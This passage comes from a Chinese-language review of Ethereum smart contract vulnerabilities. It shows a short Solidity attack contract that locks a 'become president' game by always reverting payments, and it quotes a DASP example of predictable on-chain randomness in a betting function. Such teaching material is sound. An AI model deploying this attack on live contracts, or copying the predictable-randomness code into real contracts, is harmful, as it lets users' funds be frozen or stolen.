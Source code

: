 简单的攻击代码如下：

```javassscript
contract Attack {
    function () { revert(); }
    
    function Attack(address _target) payable {
        _target.call.value(msg.value)(bytes4(keccak256("becomePresident()")));
    }
}
```

使用 remix-ide 模拟攻击流程：

![](/images/articles/2018-05-17-ethereum-smart-contracts-vulnerabilities-review/president_of_country_demo.gif)

#### 6. Bad Randomness - 可预测的随机处理

伪随机问题一直都存在于现代计算机系统中，但是在开放的区块链中，像在以太坊智能合约中编写的基于随机数的处理逻辑感觉就有点不切实际了，由于人人都能访问链上数据，合约中的存储数据都能在链上查询分析得到。如果合约代码没有严格考虑到链上数据公开的问题去使用随机数，可能会被攻击者恶意利用来进行 “作弊”。

摘自 DASP 的代码块：

```javascript
uint256 private seed;
    
function play() public payable {
	require(msg.value >= 1 ether);
	iteration++;
	uint randomNumber = uint(keccak256(seed + iteration));
	if (randomNumber % 2 == 0) {
		msg.sender.transfer(this.balance);
	}
}
```
